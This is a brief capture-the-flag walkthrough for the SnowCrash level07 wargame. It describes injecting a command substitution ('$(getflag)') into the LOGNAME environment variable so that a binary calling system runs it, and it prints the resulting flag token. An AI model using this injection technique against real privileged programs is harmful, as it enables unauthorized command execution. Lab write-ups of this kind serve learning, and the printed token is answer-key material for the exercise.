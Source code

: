 ## Walkthrough:
+ in this level i found an executable level07
+ started a debugging session, noticed system call , wich print an enviroment variable 
+ inject my pyload in the enviroment variable 
```
export LOGNAME='$(getflag)'
```
+ run the executable and got the flag.
```
level07@SnowCrash:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```
